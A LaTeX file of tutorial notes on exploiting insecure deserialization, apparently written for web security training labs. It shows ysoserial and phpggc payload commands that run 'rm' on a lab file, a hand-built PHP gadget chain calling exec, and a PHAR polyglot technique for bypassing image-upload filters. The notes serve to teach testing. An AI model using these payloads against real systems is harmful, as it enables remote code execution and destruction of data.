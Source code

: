 \documentclass[11pt]{article}
\begin{document}
\subsection{Advanced: Pre-Built Gadget Chains (ysoserial / phpggc)}
When no source is available, third-party tools generate known-working chains for popular libraries.
\begin{lstlisting}[style=code]
# Java - Apache Commons Collections via ysoserial
/usr/lib/jvm/java-8-openjdk/bin/java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64

# PHP - Symfony via phpggc
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64
\end{lstlisting}
Both tools require guessing (or fingerprinting via an error message) the exact library and version in use; several chain variants are usually tried in sequence (trial and error).

\subsection{Advanced: Custom Gadget Chains}
When no ready-made tool covers the target framework, the tester must read leaked source (backup files, decompiled \verb|.class| files) and manually chain magic methods that were never meant to be combined -- e.g.\ PHP's \verb|__wakeup()| feeding a value into an unrelated class's \verb|__get()|, which in turn calls \verb|call_user_func()| on attacker-controlled data:
\begin{lstlisting}[style=code]
$b = new DefaultMap();
$b->callback = "exec";
$a = new CustomTemplate();
$a->default_desc_type = "rm /home/carlos/morale.txt";
$a->desc = $b;                       # wires the two unrelated gadgets together
echo serialize($a);
\end{lstlisting}

\subsection{Advanced: PHAR Deserialization Without \texttt{unserialize()}}
PHP's \texttt{phar://} stream wrapper transparently deserializes the PHAR archive's metadata the moment \textit{any} filesystem function (\texttt{file\_exists}, \texttt{is\_dir}, \texttt{getimagesize}, \texttt{unlink}) touches a \texttt{phar://} path -- \verb|unserialize()| is never called explicitly by the vulnerable code at all.
\begin{lstlisting}[style=code]
$phar = new Phar($tempname);
$phar->startBuffering();
$phar->addFromString("test.txt", "test");
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($maliciousObjectGraph);   # this is what gets deserialized
$phar->stopBuffering();
\end{lstlisting}
Disguising the resulting PHAR as a valid JPEG (a ``polyglot'') lets it pass an image-upload filter, after which the attacker simply requests it via \verb|phar://<path-or-username>| to trigger deserialization on a filesystem check.
\end{document}
